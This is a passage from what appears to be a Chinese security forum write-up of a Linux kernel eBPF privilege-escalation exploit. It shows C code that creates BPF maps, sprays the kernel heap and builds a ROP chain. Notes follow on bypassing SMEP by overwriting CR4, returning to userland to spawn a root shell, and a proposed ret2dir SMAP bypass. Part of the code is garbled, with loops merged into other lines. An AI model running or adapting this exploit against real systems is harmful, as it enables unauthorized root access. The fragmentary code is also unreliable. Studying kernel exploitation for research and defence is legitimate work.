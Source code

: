 ```
    attr->map_flags = 0;
    attr->value_size = 0x40;
    //attr->key = 0;
    ret = syscall(__NR_bpf,BPF_MAP_CREATE,attr,0x30);
    if(ret == -1)
    {
        perror("bpf failed");
        exit(0);
    }   //0x40eda5
    printf("map fd:%d\n",ret);
 
    kernel_heap_spray();     
    set_up_rop();
 
 
 
    #ifdef DEBUG
    for(int i=0;imap_fd = ret;
    attr2->value = value;
    attr2->value_size = 0x40;
    attr2->key = 0;
    attr2->flags = 2;
    syscall(__NR_bpf,BPF_MAP_UPDATE_ELEM,attr2,0x30);
 
    for(int i=0;i
```

效果：  
![](https://bbs.pediy.com/upload/attach/202102/876323_WHQBW8Y4CKH439V.jpg)  
个人觉得我写的这个比网上的 exp 要略微优雅一些（bypass smep）

 

几个关键点：

*   作为 union 的 attr 成员不要直接做赋值，分配的空间上很可能会爆段错误，所以我选择写成一个 constructor 提前分配固定的空间，这样就不会在赋值的时候出错。（这个当时踩了一下坑）
*   main 函数结束以后，exit_group 在销毁当前进程的时候会对所有申请出来的 map 做回收，也会调用 map_release，但这个是不能用的，因为当我们 mmap 出一段空间放置 fake vtable（fake ops），这段空间会在 exit 的时候提前于 map_release 被回收，导致出现访问错误。（这里踩了好一会儿的坑）
*   整个攻击流程是一个 only bypass smep 的想法，rop 劫持 cr4 然后 ret2usr 提升权限，最后 `swapgs; iretq` 着陆用户态起 shell，成功率可以说百分百。

### 一个 bypass smap 的想法

实际上本例我认为还可以做到一个 smap bypass，说一下想法 orz。

 

注意到一开始的时候，我们使用了这样一条在内核中常用的栈迁移 gadgets：`xchg eax esp; ret` 原本的想法是将其直接放到用户态 mmap 出来的 fake ops 上。但是这样是没法 bypass smap 的，因为涉及到向用户态取数据。

 

但是，如果我们借用 ret2dir 的思想，在用户态大量 mmap 喷射内存到 phymaps 上，然后将 spray 出来的空间填上我们的 gadgets，然后在内核态找到 phymaps，那么就可以直接从内核态取数据了（gadgets），这样就实现了一个 smap 的 bypass～

[看雪学院推出的专业资质证书《看雪安卓应用安全能力认证 v1.0》（中级和高级）！](https://bbs.pediy.com/thread-265424.htm)

最后于 14 小时前 被 ScUpax0s 编辑 ，原因：
